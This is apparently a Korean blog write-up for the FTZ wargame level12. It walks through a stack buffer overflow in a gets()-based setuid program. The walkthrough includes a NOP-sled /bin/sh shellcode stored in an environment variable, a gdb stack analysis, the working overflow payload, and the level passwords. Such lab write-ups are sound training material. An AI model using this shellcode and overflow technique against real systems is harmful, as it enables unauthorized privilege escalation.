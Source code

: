 ```yaml
---
title: "[FTZ] level12 풀이"
categories:
  - ftz
tags:
  - FTZ
toc: true
toc_sticky: true
toc_label: "level12 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/ftz.png
---
```


💡 FTZ level12 풀이
{: .notice--warning}


# 문제

계정 : level12/it is like this

**hint**
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main( void )
{
        char str[256];

        setreuid( 3093, 3093 );
        printf( "문장을 입력하세요.\n" );
        gets( str );
        printf( "%s\n", str );
}

```

# 풀이

11번과 동일하게 bof 취약점을 이용해서 리턴 주소를 SHELLCODE 주소로 바꿔줍니다.

쉘 코드는 환경 변수에 담아 줍니다. 쉘 코드 위치가 몇 바이트씩 오차가 생기기 때문에 맨 앞에 nop 문자를 담아서 오류를 최소화 해줍니다.

```sh
[level12@ftz level12]$ export SHELLCODE=$(python -c 'print("\x90"*30 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80")')
```

환경 변수의 메모리 주소를 구해줍니다.

**env.c**

```c
int main(){
  printf("%p\n",getenv("SHELLCODE"));
}
```

컴파일 후 실행하여 SHELLCODE 환경변수의 주소를 구합니다.
```sh
[level12@ftz tmp]$ gcc -o env env.c
[level12@ftz tmp]$ ./env
0xbffffc0f
```

환경 변수의 주소는 **0xbffffc0f**입니다.

이제 bof 취약점을 발생시키기 위해서 gdb로 메모리 구조를 분석합니다.


```sh
[level12@ftz level12]$ gdb -q attackme
(gdb) set disass intel
(gdb) disass main
Dump of assembler code for function main:
0x08048470 <main+0>:    push   ebp
0x08048471 <main+1>:    mov    ebp,esp
0x08048473 <main+3>:    sub    esp,0x108    //str[256]할당
0x08048479 <main+9>:    sub    esp,0x8
0x0804847c <main+12>:   push   0xc15
0x08048481 <main+17>:   push   0xc15
0x08048486 <main+22>:   call   0x804835c <setreuid>
0x0804848b <main+27>:   add    esp,0x10
0x0804848e <main+30>:   sub    esp,0xc
0x08048491 <main+33>:   push   0x8048538
0x08048496 <main+38>:   call   0x804834c <printf>
0x0804849b <main+43>:   add    esp,0x10
0x0804849e <main+46>:   sub    esp,0xc
0x080484a1 <main+49>:   lea    eax,[ebp-264]
0x080484a7 <main+55>:   push   eax
0x080484a8 <main+56>:   call   0x804831c <gets>
0x080484ad <main+61>:   add    esp,0x10
0x080484b0 <main+64>:   sub    esp,0x8
0x080484b3 <main+67>:   lea    eax,[ebp-264]
0x080484b9 <main+73>:   push   eax
0x080484ba <main+74>:   push   0x804854c
0x080484bf <main+79>:   call   0x804834c <printf>
0x080484c4 <main+84>:   add    esp,0x10
0x080484c7 <main+87>:   leave
0x080484c8 <main+88>:   ret
0x080484c9 <main+89>:   lea    esi,[esi]
0x080484cc <main+92>:   nop
0x080484cd <main+93>:   nop
0x080484ce <main+94>:   nop
0x080484cf <main+95>:   nop
End of assembler dump.

```

gdb 실행 결과를 보니 스택은 다음과 같이 되어 있습니다.

```
ret (4)
ebp (4)
dummy (8)
str (256)
```

따라서 str에 268바이트 만큼 덮어쓴 뒤 마지막 4바이트에 환경변수 주소로 ret 주소를 덮어 써 줍니다.

```sh
[level12@ftz level12]$ (python -c 'print("A"*268+"\x0f\xfc\xff\xbf")';cat) | ./attackme
문장을 입력하세요.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA??

id
uid=3093(level13) gid=3092(level12) groups=3092(level12)

my-pass

Level13 Password is "have no clue".
```

쉘을 획득했습니다.

